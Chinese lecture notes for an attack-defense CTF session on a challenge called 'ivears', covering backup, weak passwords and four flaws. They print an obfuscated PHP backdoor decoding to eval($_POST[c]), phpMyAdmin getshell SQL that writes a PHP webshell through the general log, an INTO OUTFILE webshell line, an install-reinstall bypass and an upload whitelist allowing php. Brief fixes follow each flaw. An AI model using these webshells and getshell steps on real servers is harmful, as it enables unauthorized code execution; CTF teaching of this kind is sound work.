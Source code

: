 直播7点半准时开始
今天讲的题目：ivears

如果有什么问题可以直接在聊天里面先留言，看见都会一一解答，只管问 



拿到题目一般怎么分析，然后事先需要准备什么必备软件和批量脚本

备份
    备份什么
        站点
        数据库
    通过什么工具备份
        站点-> winSCP -> xshell插件 -> MobaXterm 自带sftp
        数据库备份 -> 拿sh脚本 -> php脚本去备份 -> mysql命令备份

弱口令
    ssh
    mysql
    WEB应用


扫预留后门

通防脚本waf，流量抓取脚本，文件监控，进程监控，批量webshell利用模版


php脚本 python脚本   






如何在自己靶机部流量分析，分析流量包学习别人的攻击方法？
    首先你拿到是普通用户的权限，也就是开启不了tcpdump


怎样做批量脚本,用什么软件和语言做 合适
    先学python 



路径中的/user/是怎么判断出来的?




# 1. 网页后门


## 解题步骤
我们通过D盾扫描站点源码，发现`/Lib/Action/Home/HomeAction.class.php 65`
存在后门

```php
@$_=[].'';@$___=$_[''];$____=$___;$____++;$_____=$____;$_____++;$______=$_____;$______++;$_______=$______;$_______++;$________=$_______;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$________++;$_________=$________;$_________++;$_________++;$_________++;$_________++;$_=$____.$___.$_________.$_______.'6'.'4'.'_'.$______.$_______.$_____.$________.$______.$_______;$________++;$________++;$________++;$_____=$_________;$_____++;$__=$___.$_________.$_________.$_______.$________.$_____;@$__($_("ZXZhbCgkX1BPU1RbY10p"));
```

分析代码得到`ZXZhbCgkX1BPU1RbY10p`是经过BASE64编码过的，所以我们解码之后的到字符串`eval($_POST[c])`
最后得到密码为`c`


另外发现需要执行该方法需要构造不存在的页面才能跳转到`_404`中
所以我们构造页面为`http://101.71.29.6:10016/user/111`
通过菜刀连接


路径中的/user/是怎么判断出来的?

站点路由规则
http://101.71.29.6:10016/Article/
http://101.71.29.6:10016/lib/xxx/ArticleController/index.php



## 防护方法
删除该代码即可



我们可以根据站点源码中的一些信息去判断该站点是否是CMS

在互联网搜索一些已经被安全研究员挖掘出的漏洞去利用


# 2. phpmyadmin 后台getshell

## 解题步骤
如何找到数据库的密码，去找`config conf *.config`这些配置文件
`root/toor`


进入后台之后我们会三种思路去getshell
1. 写入一句话
  - 不行，原因:mysql具有安全设置，不允许进行写入文件操作
  - `SELECT '<?php @eval($_POST[c]); ?>' INTO OUTFILE '/var/www/html/shell.php'`
2. phpmyadmin本身存在的getshell漏洞
  - 不行，原因：是最新版本的phpmyadmin
3. 通过日志写入一句话
  - 可行
[phpmyadmin 后台getshell方法](https://www.k2zone.cn/?p=1725)

mysql会有日志文件
我们能不能去改变这个文件的目录，去指向网站根目录,可写的文件中
然后通过执行SQL语句去将php代码写入到日志中，最后getshell

以下是sql利用代码
```sql
set global general_log=on;
set global general_log_file='/var/www/html/1.php';
select "<?php @eval($_POST['cmd']); ?>"
set global general_log=off;
```


## 防护方法
1. 修改数据库密码
2. 删除`1.php`文件



# 3. install重装漏洞

## 解题步骤
我们发现存在`/install`目录，联想到是否存在网站重装漏洞存在，
分析过`index.php`中的代码后，发现是有对重装问题做验证的，
但是我们可以绕过其中的验证，直接访问`http://101.71.29.6:10024/install/`目录，对站点进行重装

重装的确拿不到shell，但是会重置他人的站点，也就是别人做的代码补丁或修改WEB应用口令等会无效，站点会被重置。


## 防护方法
删除`/install/`目录即可




通过seay自动代码审计发现具有疑点的文件和代码，来分析判断是否存在漏洞

我们通过站点直接过"白盒测试"来进行分析

我们常见的WEB通过漏洞
弱口令
SQL
XSS
文件上传
文件包含
SSRF
XPATH
XXE
命令/代码执行
任意文件下载
反序列化漏洞
...

输入点 输出点


如何找到管理员密码
弱口令
查找数据库，分析密码的加密算法

最后得到帐号密码为`admin/admin`

# 4. 文件上传漏洞

## 解题步骤

我们找到文件上传功能，分析文件上传代码`/Public/kindeditor/php/upload_json.php`
得到允许上传php文件，可以直接getshell
我们在分析文件上传功能中发现，该接口不需要进行登录即可上传，存在越权漏洞

```php
//定义允许上传的文件扩展名
$ext_arr = array(
	'image' => array('gif', 'jpg', 'jpeg', 'png', 'bmp', 'php'),
	'flash' => array('swf', 'flv'),
	'media' => array('swf', 'flv', 'mp3', 'wav', 'wma', 'wmv', 'mid', 'avi', 'mpg', 'asf', 'rm', 'rmvb'),
	'file' => array('doc', 'docx', 'xls', 'xlsx', 'ppt', 'htm', 'html', 'txt', 'zip', 'rar', 'gz', 'bz2'),
);
```


## 防护方法
把`28`行中的`php`去除即可

返回的文件在服务器上的地址怎么看的？




